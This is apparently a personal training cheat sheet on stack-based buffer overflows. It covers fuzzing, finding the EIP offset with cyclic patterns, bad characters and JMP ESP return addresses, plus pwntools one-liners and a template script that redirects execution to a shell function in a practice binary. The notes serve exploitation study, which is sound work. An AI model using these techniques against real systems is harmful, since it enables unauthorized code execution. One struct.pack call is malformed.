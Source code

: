 # Stackbased Buffer Overflows

## Finding the vulnerability:
1. Source code review
	1. Find vulnerable functions
2. Fuzzing
	1.  Fuzz any input fields
3. Reverse Engineering
	1. Find vulnerable functions


## Fuzzing HTTP protocol
[Microsoft TCPView](https://docs.microsoft.com/en-us/sysinternals/downloads/tcpview) if debugger network listening does not work.

1. Use Wireshark to monitor traffic sent to application and follow TCP stream to show reply. 
2. Python PoC 
3. Run debugger Administrative priveleges attached to running of the vulnerable application

## Buffer Overflow Exploitation
Be aware alot of restarting required.
1. Enumerate till location EIP
	1. Binary Tree analysis - use pwntools `cyclic` or `msf-pattern_create -l $int`
	2. Update PoC
1. Check offset with `msfpattern_offset -l $int -q $offsetpattern` or pwntools `offset`. From EIP the offset is located at relative memory address higher than EIP - closer to 0x0!.
	1. Add EIP variable to find exact EIP address.
1. Locating space for shellcode
1. Check for bad characters
1. Redirect the execution to flow:
	
Due address changing either due crashing-and-restarting application or ASLR ... we can just hardcode a static return address in general in modern binary exploitation.

6. Find a return address
7. Leverage a static address that contains a `JMP ESP`
	1. Must be static - no libraries compiled with ASLR support
	2. Not an address within the region to be occupied by the shellcode

## pwntools
Enumeration
```bash
r < <(cyclic $INT) # cyclic input of $INT amount
cyclic -l EIP_Address # find out the amount of bytes of input need to expploit the binary
disassemble shell # find out where the shell function is in memory to set it to IP
# EITHER
# IF MANUAL WAY REMEMBER CORRECT ADDRESS LENGTH AND ENDIANNESS
# L->R = littleEndian; R->L = bigEndian
python -c 'print "A"*$INT + "$ADDR"' | /vuln/bin
python -c 'import struct;print "A"*44 + struct.pack("< ", $ADDR)' | /vuln/bin
```

Scripting the buffer overflow
```
from pwn import *
proc = process('/vuln/bin')
elf = ELF('/vuln/bin')
shell_func = elf.symbols.shell # CHANGE WHATEVER FORMAT REQUIRED
payload = fit({$INT: shell_func })
proc.sendline(payload)
proc.interactive()
```